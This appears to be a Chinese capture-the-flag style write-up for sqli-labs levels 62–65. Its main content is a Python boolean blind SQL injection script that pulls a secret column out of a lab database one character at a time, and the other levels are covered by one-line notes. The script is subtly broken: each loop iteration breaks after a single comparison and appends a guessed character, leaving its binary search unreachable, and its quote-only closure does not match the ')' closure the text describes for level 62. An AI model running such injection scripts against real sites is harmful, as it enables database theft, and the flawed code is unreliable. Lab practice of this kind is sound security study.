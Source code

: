 # 62-65
## 第六十二关
该关为GET型，，布尔盲注，`('')`字符型注入，不会返回报错信息，且返回指定目录信息，只能使用盲注
布尔脚本脚本：
```
# -*- coding: UTF-8 -*-
import requests

global num
url = "http://192.168.211.145/sqli/Less-62/index.php?id=1'"

def check(payload):
    global num
    num += 1
    content = requests.get(url=payload).text
    print(payload)
    if "Angelina" in content:
        return 1
    else:
        return 0

def exp():
    result = ''
    start = 30
    end = 127
    for i in range(1, 25):
        for j in range(start, end):
            tmp = (start + end) // 2
            #print(tmp)
            payload = url + "and ascii(substr((select secret_28HE from qyzq3rflb5),%d,1))>%d--+" % (i, tmp)
            if (end - start == 1):
                payload = url + "and ascii(substr((select secret_28HE from qyzq3rflb5),%d,1))=%d--+" % (i, tmp)
            if check(payload):
                result += chr(tmp)
                start = 30
                end = 127
                break
            else:
                result += chr(tmp + 1)
                start = 30
                end = 127
                break
            if check(payload):
                start = tmp
            else:
                end = tmp
    print(result)

if __name__ == '__main__':
    num = 0
    exp()
    print(num)
```
## 第六十三关
该关为GET型，，布尔盲注，`''`字符型注入，不会返回报错信息，且返回指定目录信息，只能使用盲注，修改一下脚本即可
## 第六十四关
该关为GET型，，布尔盲注，`（（））`数字型注入，不会返回报错信息，且返回指定目录信息，只能使用盲注，修改一下脚本即可
## 第六十五关
该关为GET型，，布尔盲注，`（）`数字型注入，不会返回报错信息，且返回指定目录信息，只能使用盲注，修改一下脚本即可